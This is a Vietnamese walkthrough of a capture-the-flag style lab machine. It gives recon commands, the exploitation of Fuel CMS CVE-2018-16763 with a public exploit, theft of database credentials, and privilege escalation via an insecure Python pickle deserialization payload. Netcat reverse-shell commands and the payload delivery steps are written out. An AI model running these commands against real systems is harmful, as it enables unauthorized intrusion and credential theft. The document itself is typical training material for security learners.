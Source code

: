 ## Step 1
Dùng **netdiscover -r 10.0.2.0/24** để dò ip của victim

![image](https://user-images.githubusercontent.com/97771705/222623213-96b7c935-f64e-456b-886f-9848fee3f4eb.png)

IP là *10.0.2.5*

Quét port ra 4 port, trong đó có 1 port mysql 

![image](https://user-images.githubusercontent.com/97771705/223318597-503e6337-d3a5-4494-90b9-c779ee69317a.png)

![image](https://user-images.githubusercontent.com/97771705/223318808-c6786e72-4619-48f4-a1ba-4e6f5cc147db.png)

## Step 
Tìm path ẩn bằng gobuster

>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5 -x html,php,txt

-dir: Chế độ dò tìm thư mục của gobuster.

```
Gobuster là một công cụ dò tìm thư mục và tệp tin trên các ứng dụng web. Nó hoạt động bằng cách gửi các yêu cầu HTTP tới các URL cụ thể, sau đó phân tích và hiển thị kết quả trả về từ máy chủ web. Gobuster hỗ trợ các phương thức HTTP như GET, POST, HEAD, OPTIONS, PUT, DELETE và CONNECT.
```

Tìm thấy 1 trang structure

![image](https://user-images.githubusercontent.com/97771705/223321109-040f3e01-6879-4f94-afb1-8f21e7253c1d.png)

Truy cập vào trang

![image](https://user-images.githubusercontent.com/97771705/223320795-03127848-e07d-4bea-bd9f-4fb081411f6e.png)

Ta tiếp tục tìm path ẩn của structure

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Phát hiện khá nhiều trang hay ho

![image](https://user-images.githubusercontent.com/97771705/223322168-14894230-8eed-4539-8fc5-1567cfc46739.png)

![image](https://user-images.githubusercontent.com/97771705/223321296-4e30fd1a-7e26-44c9-9146-4637662c0ae1.png)

![image](https://user-images.githubusercontent.com/97771705/223321412-efb75479-44be-49e9-85de-c8e00fb1eb09.png)

Trang /fuel mặc định là /fuel/start ->có vẻ như lại cần gobuster :)

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure/fuel -x html,php,txt

Trang index.php chuyển hướng sang start

![image](https://user-images.githubusercontent.com/97771705/223322704-44a5ab48-433a-499b-92f2-1d471019b544.png)

Thử thay url bằng /index.php/fuel 

![image](https://user-images.githubusercontent.com/97771705/223323114-ac21dfa1-9395-4f2c-99a2-5dbd381c6337.png)

Tìm kiếm trên Google, phát hiện Fuel CMS có lỗ hổng RCE tại những phiên bản cũ. Một trong những code khai thác:

https://github.com/padsalatushal/CVE-2018-16763

Git clone code trên trang github trên về máy kali, sau đó chạy file python của git đó

![image](https://user-images.githubusercontent.com/97771705/223417730-70b91543-6dd8-416a-b789-594e6db99a61.png)

Nhập command reverse shell: tạo ra một kết nối từ victim machine đến attacker machine, thông qua đó attacker có thể kiểm soát và thực thi các lệnh trên victim machine. Khi thực hiện được kết nối này, attacker có thể truy cập vào các tài nguyên và dữ liệu trên victim machine, và có thể thực hiện các hành động như cài đặt phần mềm độc hại, lấy mật khẩu và tạo backdoor để giữ lâu dài quyền kiểm soát truy cập vào victim machine.

>nc 10.0.2.5 4444 /bin/bash

Sau đó đọc thông tin trong database.php

> cat /var/www/html/structure/fuel//config/database.php 

![image](https://user-images.githubusercontent.com/97771705/223422171-a6f74ea1-4bf9-464f-b325-dfbc4dd7b45e.png)

Ta đã có username và password, trở về máy phineas -> đăng nhập thành công

![image](https://user-images.githubusercontent.com/97771705/223422669-fa400788-e058-4df1-b0a1-84fb2ea8bd1b.png)

Hoặc dùng cách ssh cho pro :)

![image](https://user-images.githubusercontent.com/97771705/223422976-1e9f8cb9-08a4-4f94-92a9-7d74e86b6349.png)

![image](https://user-images.githubusercontent.com/97771705/223601249-a9ecd891-e0ba-410b-b8e9-838176fea35c.png)

Tìm kiếm loanh quanh các thư mục -> nhận được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/223423539-fb08405f-35fd-4012-a371-6f0a2f6ef8cd.png)

## Step 3

Đến lúc leo thang đặc quyền r :) 

Trong số các folder khởi đầu của máy Phineas, chỉ có duy nhất /web là không có viết hoa. Mở ra có 1 file python

![image](https://user-images.githubusercontent.com/97771705/223424243-49792b4c-cfe5-46b6-acd5-a51bca3f77d9.png)

Có thể thấy nó bị dính lỗi Insecure Deserialization

Dùng lệnh **ip a** để tìm kiếm ip của máy phineas khi ta ssh trên kali ->10.0.2.6

Command exploit: tại terminal root kali

>wget https://gist.githubusercontent.com/kriss-u/085569495cb930e398759c0cbf45e3b7/raw/15fe119ed307ac69673bcaadd9fab84c32a85a00/pickle-payload-py3.py

>python3 pickle-payload-py3.py "nc 10.0.2.6 4444 -e /bin/bash"

>nc -nlvp 4444

Tại terminal ssh phineas 

>curl -d "awesome=Ket_qua_tai_cau_lenh_python_tren" -X POST http://127.0.0.1:5000/heaven

Quay về terminal root kali

![image](https://user-images.githubusercontent.com/97771705/223911610-5bafd821-956c-492d-b454-0379404ad454.png)



